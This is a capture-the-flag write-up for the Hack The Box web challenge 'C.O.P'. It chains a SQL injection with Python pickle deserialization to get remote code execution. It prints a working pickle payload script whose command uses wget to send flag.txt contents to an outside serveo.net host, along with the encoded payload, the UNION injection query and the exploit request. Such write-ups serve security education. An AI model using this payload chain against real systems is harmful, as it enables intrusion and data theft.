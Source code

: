 # [C.O.P](https://app.hackthebox.com/challenges/C.O.P) Writeup [HTB]
_Web_

## Investigating the website
This time, I have to deal with a ~~literal~~ cult! The Cult Of Pickles' website is very simple: there are 4 clickable items; clicking on item _id_ triggers a GET /view/_id_. Since the source code is available, I immediately check it!

The first thing I notice is that the flag is stored in some `flag.txt` file. The file isn't referenced anywhere in the code, which makes me think the goal is command injection.

The second thing I notice is a database. When calling GET /view/_id_, the following code is executed:
```py
def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)
```
Since there is no input sanitizing whatsoever, the application is vulnerable to SQL injection. Good to know!

Now, back to the database. Items in the shop are saved in the database as following:
```py
# edited for simplicity
item1 = Item('Pickle Shirt', 'Get our new pickle shirt!', '23', '/static/images/pickle_shirt.jpg')
data1 = base64.b64encode(pickle.dumps(item1)).decode()
# then `data1` is added to the database, with incremental id
```
In other words, items in the database are Python objects that get dumped as `pickle` and encoded to base 64.

## Crafting a pickle
I'm not very familiar with `pickle`s, so I open the Python documentation and, surprise! I get exactly what I was looking for, right on top of the page, in a big red rectangle:

>*__Warning__* <br>
The `pickle` module **is not secure**. Only unpickle data you trust. <br>
It is possible to construct malicious pickle data which will **execute arbitrary code during unpickling**. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.

I rub my hands like a cartoonish supervillain, and look for a PoC on Google. [This interesting article](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) on `pickle` exploitation comes with a pretty handy script for RCE. 

My evil plan is the following:
1. Run the default HTTP python server on localhost;
2. Expose the server using [serveo](https://serveo.net/);
3. Force the C.O.P server to `GET <my_server_address>/<the flag>`

I copy the script and modify it according to my plan:
```py
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('wget https://a212adce5fa81618198dc354690108bb.serveo.net/$(cat flag.txt)')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.b64encode(pickled))

# output : gASVYwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjEh3Z2V0IGh0dHBzOi8vYTIxMmFkY2U1ZmE4MTYxODE5OGRjMzU0NjkwMTA4YmIuc2VydmVvLm5ldC8kKGNhdCBmbGFnLnR4dCmUhZRSlC4=
```
Now I just need to trick the server into ~~eating~~ _unpickling_ my pickle!

## Injecting the pickle
Pickles are decoded and loaded inside the `render_template` function:
```py
@web.route('/view/<product_id>')
def product_details(product_id):
    return render_template('item.html', product=shop.select_by_id(product_id))
```
This means my ultimate aim is to force:
```py
product=b'gASVYwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjEh3Z2V0IGh0dHBzOi8vYTIxMmFkY2U1ZmE4MTYxODE5OGRjMzU0NjkwMTA4YmIuc2VydmVvLm5ldC8kKGNhdCBmbGFnLnR4dCmUhZRSlC4='
```

Remember that SQL injection? This is where it becomes _very_ convenient!

Let's look at the original query:
```sql
SELECT data
FROM products
WHERE id = '<the provided id>'
```
This query must be modified in two ways:
- First, I need to inject the malicious pickle in the result. This can be done with a "UNION" statement;
- Then, I have to make sure the malicious pickle is the first line in the result, otherwise it will be discarded. This can be done by passing a non-existent id.

Overall, the query will look like this:
```sql
SELECT data
FROM products
WHERE id = '5'
UNION
SELECT 'gASVYwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjEh3Z2V0IGh0dHBzOi8vYTIxMmFkY2U1ZmE4MTYxODE5OGRjMzU0NjkwMTA4YmIuc2VydmVvLm5ldC8kKGNhdCBmbGFnLnR4dCmUhZRSlC4='
```

Now that I have all it takes, I simply have to send the HTTP request.
```
GET /view/5'%20union%20select%20'gASVYwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjEh3Z2V0IGh0dHBzOi8vYTIxMmFkY2U1ZmE4MTYxODE5OGRjMzU0NjkwMTA4YmIuc2VydmVvLm5ldC8kKGNhdCBmbGFnLnR4dCmUhZRSlC4=
```
And my Python server will give me the flag on a silver plate!
```sh
127.0.0.1 - - [19/Aug/2024 09:49:50] "GET /HTB%7B<REDACTED>%7D HTTP/1.1" 404 -
```
